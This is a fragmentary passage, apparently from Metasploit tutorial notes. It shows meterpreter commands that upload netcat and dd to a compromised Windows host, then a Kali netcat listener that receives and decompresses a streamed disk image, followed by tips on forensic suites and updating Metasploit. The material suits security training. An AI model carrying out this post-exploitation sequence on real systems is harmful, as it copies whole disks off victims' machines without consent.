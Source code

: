     msf6> set FILES 23838383883
    
    msf6> exploit

You can get the Windows version of netcat and windows version of dd. (dd is the bit-by-bit disk copying utility.)

    meterpreter> upload nc.exe
    
    meterpreter> upload dd
    
    kali> nc -l 6996 | bzip2 -d | dd bs=16M of=/dev/forensicimage // -d decompress
    
    meterpreter> shell

  

Forensic suite such as Autopsy, FTK, Encase 

  

**Updating the msfconsole** 

The old way

    kali> msfupdate

APT Package Manager Update

    kali> apt update; apt install metasploit-framework




